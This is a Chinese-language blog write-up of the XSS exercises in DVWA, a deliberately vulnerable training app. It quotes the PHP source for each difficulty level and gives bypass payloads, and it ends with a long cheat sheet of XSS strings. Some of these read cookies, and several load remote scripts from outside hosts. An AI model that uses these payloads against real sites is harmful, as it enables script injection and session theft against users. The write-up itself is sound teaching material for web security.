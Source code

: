 ```yaml
---
title: DVWA之XSS
date: 2019-3-18
tags: DVWA

---
```



- 跨站脚本攻击-XSS,全称Cross site scripting，特殊的注入攻击，相当于在代码中注入恶意的脚本，当用户访问页面时，在浏览器中触发并解析代码，完成攻击。xss根据不同的攻击形式分为反射型xss、存储型xss、Dom型Xss。

- 1.反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。

- 2.存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie（虽然还有种DOM型XSS，但是也还是包括在存储型XSS内）。

- 3.DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。

_具体内容可以看`https://www.zhihu.com/question/26628342`个人觉得说的还不错_



### 反射型xss

- low 

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
``` 

_显然没有做任何的防护措施_

**攻击方法：**

```
<script>alert('XSS')</script> 
'><script>alert(document.cookie)</script>
<IFRAME SRC=javascript:alert(‘XSS’)></IFRAME>//框架注入
"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><" 
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```
**显然低等级的对以上注入方法都是可以做到的**

- medium

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
} 
```

**我们可以看到中等级过滤了<script>,这时我能想到的有两种解决办法：**

1.大小写替换，诸如<SCRiPt>之类的

2.写两次：<scr<script>ipt>替换

—除了含有script的需要注意一下，其他注入方法可以正常执行—

- high

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
} 
```

**这里是用正则表达式做替换，使用通配符，对script相关的替换掉，但对事件型的构造语句没有进行过滤,如：**

```
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```

- impossible 

```
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>"; 
```

**严格，加了token，htmlspecialchars（）可对输入参数进行实体转义，输入的<,>等都是会当做实体字符输出,目前并没有想到绕过的办法**

### 存储型XSS

**首先先列出几种攻击方法：**

```
<script>alert('XSS')</script> 
'><script>alert(document.cookie)</script>
<IFRAME SRC=javascript:alert(‘XSS’)></IFRAME>//框架注入
"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><" 
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```

- low 

```
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    //mysql_close();
}

```

**显然没有经过防护所有的攻击手段都是可行的**

- medium 

```
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
} 
```

**这里message的防住入做的很棒：**

addslashes() 函数返回在预定义字符之前添加反斜杠的字符串
htmlspecialchars() 函数把预定义的字符转换为 HTML 实体

当然，虽然message不太好搞，但是name的防护措施只做了一个str_replace( '<script>', '', $name )，根据反射型xss的经验，可以对script进行大小写和双写的绕过。虽然name是有长度限制的，但只要我们再进行一下抓包改包发包即可完成，具体过程不再赘述。

- high

```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?> 
```
**有了medium处的教训，这里不再把精力浪费在message上。对于name处的注入可参照反射型xss的high等级。**

### Dom型XSS

- Low 

```
<?php

# No protections, anything goes

?> 
```

**对于低等级，没有任何防护措施，我们选择直接xss**

`http://localhost/DVWA-master/vulnerabilities/xss_d/?default=<script>alert('xss')</script>`

- medium

```
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?> 
```

**可以看到这里只要一出现'<script'就会自动替换成默认值：‘English’，并且是区分大小写的。所以这里换一种方法，使用不含<script>的注入方式**

**如果直接用<img src=1 onerror=alert('xss')>不会出现，这里可以通过查看源代码闭合标签从而达到我们想要的效果**

`http://localhost/DVWA-master/vulnerabilities/xss_d/?default=></option></select><img src=1 onerror=alert('xss')>`

### XSS注入常用语句

```
<script>alert('hello，gaga!');</script> //经典语句，哈哈！
>"'><img src="javascript.:alert('XSS')">
>"'><script>alert('XSS')</script>
<table background='javascript.:alert(([code])'></table>
<object type=text/html data='javascript.:alert(([code]);'></object>
"+alert('XSS')+"
'><script>alert(document.cookie)</script>
='><script>alert(document.cookie)</script>
<script>alert(document.cookie)</script>
<script>alert(vulnerable)</script>
<script>alert('XSS')</script>
<img src="javascript:alert('XSS')">
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
<script>alert('Vulnerable')</script>
a.jsp/<script>alert('Vulnerable')</script>
"><script>alert('Vulnerable')</script>
<IMG SRC="javascript.:alert('XSS');">
<IMG src="/javascript.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"("XSS")>
<IMG SRC="jav	ascript.:alert('XSS');">
<IMG SRC="jav ascript.:alert('XSS');">
<IMG SRC="jav ascript.:alert('XSS');">
"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out
<IMG SRC=" javascript.:alert('XSS');">
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
<BODY BACKGROUND="javascript.:alert('XSS')">
<BODY ONLOAD=alert('XSS')>
<IMG DYNSRC="javascript.:alert('XSS')">
<IMG LOWSRC="javascript.:alert('XSS')">
<BGSOUND SRC="javascript.:alert('XSS');">
<br size="&{alert('XSS')}">
<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>
<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">
<IMG SRC='vbscript.:msgbox("XSS")'>
<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">
<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>
<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>
<TABLE BACKGROUND="javascript.:alert('XSS')">
<DIV STYLE="background-image: url(javascript.:alert('XSS'))">
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html');">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>
<BASE HREF="javascript.:alert('XSS');//">
getURL("javascript.:alert('XSS')")
a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);
<XML SRC="javascript.:alert('XSS');">
"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
<IMG SRC="javascript.:alert('XSS')"
<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```
